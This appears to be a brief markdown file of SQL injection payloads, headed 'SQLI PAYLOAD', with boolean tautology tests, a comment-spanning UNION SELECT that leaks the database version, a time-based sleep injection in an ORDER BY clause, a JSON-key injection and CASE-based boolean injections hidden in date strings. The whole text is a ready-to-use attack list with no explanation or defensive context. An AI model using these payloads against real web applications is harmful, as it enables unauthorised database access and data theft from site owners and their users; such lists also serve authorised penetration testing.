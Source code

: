 # SQLI PAYLOAD

||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*"
"2param":" */ union select 0,0,0,@@version,0 --a"  
DESC, (select sleep(3)) -- -  
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  

